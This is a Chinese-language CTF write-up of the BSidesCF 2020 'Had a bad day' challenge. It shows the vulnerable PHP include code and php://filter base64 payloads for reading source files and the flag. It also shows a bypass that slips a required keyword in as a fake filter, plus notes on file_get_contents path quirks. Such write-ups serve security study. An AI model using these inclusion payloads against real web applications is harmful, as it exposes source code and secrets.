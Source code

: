 # \[BSidesCF 2020]Had a bad day

## \[BSidesCF 2020]Had a bad day

## 考点

* 文件包含配合伪协议读取文件
* php://filter伪协议特性
* file\_get\_contents特性

## wp

![](<../../.gitbook/assets/image (4) (1) (1).png>)

两个按钮，点一下，页面跳转到index.php?category=woofers

尝试php伪协议文件包含，`index.php?category=php://filter/read=convert.base64-encode/resource=index.php`，得到报错无法包含<mark style="color:red;">index.php.php</mark>

![](<../../.gitbook/assets/image (9) (1) (1) (1).png>)

改一下payload，`index.php?category=php://filter/read=convert.base64-encode/resource=index`

```php
<?php
$file = $_GET['category'];
if(isset($file))
{
if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
            include ($file . '.php');
}else{
echo "Sorry, we currently only support woofers and meowers.";
}
}
?>
```

要包含的文件名中必须含有woffers或meowers或index

这里就用php://filter伪协议的特性，可以在协议上套一层协议，并且遇到识别不了的会自动过滤

`index.php?category=php://filter/convert.base64-encode/write=woofers/resource=flag`

`index.php?category=php://filter/convert.base64-encode/woofers/resource=flag`

## 小结

1. php://filter伪协议遇到识别不了的协议或过滤器会自动过滤，比如`php://filter/convert.base64-encode/write=woofers/resource=flag`会自动过滤`write=woofers`
2. file\_get\_contents在遇到无法识别的协议时，会把它当做目录处理

```php
$a = file_get_contents("a/://github/../../../2.txt");
echo $a;
$a = file_get_contents("http(://github/../../2.txt");
echo $a;
// 123
```

目录结构如下

* index.php
* 2.txt
